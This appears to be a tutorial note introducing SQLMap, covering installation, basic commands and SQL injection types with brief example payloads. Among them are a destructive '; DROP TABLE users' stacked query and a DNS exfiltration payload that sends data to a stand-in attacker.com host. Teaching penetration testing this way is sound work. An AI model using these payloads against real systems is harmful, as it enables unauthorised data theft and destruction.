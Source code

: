 # SQLMap Overview

SQLMap is an open-source penetration testing tool written in Python designed to automate the detection and exploitation of SQL injection (SQLi) vulnerabilities. It has been continuously developed since 2006 and is still actively maintained.

## Basic Usage

SQLMap can be executed with the following basic command:

```bash
python sqlmap.py -u 'http://inlanefreight.htb/page.php?id=5'
```

The tool automates tasks like detecting injection points, fingerprinting, enumeration, and exploiting vulnerabilities.

---
## SQLMap Features

- **Target connection testing**
- **Injection detection**
- **Fingerprinting of DBMS**
- **Database content retrieval**
- **OS Command Execution**
- **Bypassing WAF/IPS/IDS using tamper scripts**

## Installation

SQLMap is pre-installed on many security-focused operating systems like Pwnbox. To install on Debian-based systems, use:

```bash
sudo apt install sqlmap
```

To install manually, use:

```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

Run SQLMap with:

```bash
python sqlmap.py
```

## Supported SQL Injection Types

SQLMap can detect and exploit all known SQL injection types. These include:

### 1. **Boolean-based Blind SQL Injection**
- **Example:**
  ```sql
  AND 1=1
  ```
- Relies on TRUE/FALSE results from server responses.

### 2. **Error-based SQL Injection**
- **Example:**
  ```sql
  AND GTID_SUBSET(@@version,0)
  ```
- Uses DBMS errors to retrieve data in "chunks."

### 3. **Union Query-based SQL Injection**
- **Example:**
  ```sql
  UNION ALL SELECT 1,@@version,3
  ```
- Allows extending queries to inject results into the response.

### 4. **Stacked Queries**
- **Example:**
  ```sql
  ; DROP TABLE users
  ```
- Executes multiple queries in a single request (supported on certain DBMS like Microsoft SQL Server).

### 5. **Time-based Blind SQL Injection**
- **Example:**
  ```sql
  AND 1=IF(2>1,SLEEP(5),0)
  ```
- Differentiates between TRUE/FALSE based on response time.

### 6. **Inline Queries**
- **Example:**
  ```sql
  SELECT (SELECT @@version) from
  ```
- Embeds sub-queries in the original query.

### 7. **Out-of-band SQL Injection**
- **Example:**
  ```sql
  LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
  ```
- Uses DNS exfiltration to retrieve data when other methods are slow or unsupported.

## Additional Features

SQLMap includes advanced techniques like:

- **Protection Detection & Bypass**: Using tamper scripts to avoid WAF/IPS/IDS detection.
- **File System Access**: Retrieving files from the server.
- **OS Command Execution**: Running system commands through SQL injection.

---

# Getting Started with SQLMap

## Basic Help Command
```bash
$ sqlmap -h
```
Shows basic usage and common options.

### Common Options:
- `-u URL`: Target URL (e.g., `http://example.com/vuln?id=1`)
- `-v VERBOSE`: Set verbosity (0-6, default 1)
- `-h`: Show help message
- `--version`: Show version

## Advanced Help Command
```bash
$ sqlmap -hh
```
Shows detailed options for configuring targets, requests, and connection methods.

## Example Usage
Test for SQL injection on a target URL:
```bash
sqlmap -u "http://example.com/vuln.php?id=1" --batch
```

- **`--batch`**: Skip user input, use default choices.

## Output Overview:
- **Testing**: SQLMap checks for vulnerabilities in the URL.
- **Injection Points**: Identifies if parameters (like `id`) are vulnerable to SQLi.
- **Payloads**: Tests various SQLi payloads like boolean-based, time-based, or error-based.

